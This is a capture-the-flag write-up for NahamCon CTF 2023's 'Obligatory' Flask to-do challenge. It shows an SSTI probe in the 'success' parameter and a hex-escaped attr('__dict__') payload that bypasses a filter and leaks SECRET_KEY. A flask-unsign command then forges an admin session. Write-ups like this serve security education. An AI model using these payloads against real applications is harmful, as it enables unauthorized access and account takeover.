 ```yaml
---
title: Obliagtory - NahamconCTF 2023
date: 2023-06-18
categories: [CTF Writeups]
tags: [CTF, NahamconCTF 2023, SSTI, Filter Bypass]
---
```


NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```
{% raw %}

I tried to leak Config items with `{{config.items()}}`, but is blocked by the filter

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/config-waf.png)

Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin
{% endraw %}
```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

**Flag obtained after using the newly signed auth-token**

![](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/raw/main/Obligatory/flag.png)

